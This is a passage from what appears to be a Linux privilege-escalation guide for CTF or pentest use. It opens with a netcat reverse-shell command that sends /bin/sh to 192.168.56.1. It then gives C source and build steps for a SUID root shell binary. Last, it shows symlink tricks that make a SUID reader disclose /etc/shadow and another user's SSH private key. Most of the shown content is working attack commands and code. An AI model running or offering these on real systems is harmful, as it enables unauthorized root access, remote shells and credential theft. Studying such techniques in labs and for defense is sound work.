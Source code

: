 ```none
echo "/bin/nc.traditional -e /bin/sh 192.168.56.1 22" > hello.sh
```

or

we can create a suid file to give us the privileged user permission

```none
#!/bin/sh
gcc /var/tmp/shell.c -o /var/tmp/flagXX
chmod 4777 /var/tmp/flagXX
```

Considering shell.c contains

```none
int main(void) {
setgid(0); setuid(0);
execl("/bin/sh","sh",0); }
```

### Symlink Creation

Multiple time, we would find that a suid binary belonging to another user is authorized to read a particular file. For example Let's say there's a suid binary called readExampleConf which can read a file named example.conf as a suid user. This binary can be tricked into reading any other file by creating a Symlink or a softlink. For example if we want to read /etc/shadow file which can be read by suid user. we can do

```none
ln -s /etc/shadow /home/xxxxxx/example.conf
ln -s /home/xxx2/.ssh/id_rsa /home/xxxxxxx/example.conf
```

Now, when we try to read example.conf file, we would be able to read the file for which we created the symlink

```none
readExampleConf /home/xxxxxxx/example.conf
<Contents of shadow or id_rsa>
```

### Directory Symlink

Let's see what happens when we create a symlink of a directory

```none
ln -s /etc/ sym_file
ln -s /etc/ sym_fold/
```

Here the first one create a direct symlink to the /etc folder and will be shown as

```none
sym_file -> /etc/
```

where as in the second one ( ln -s /etc/ sym_fold/ ), we first create a folder sym_fold and then create a symlink
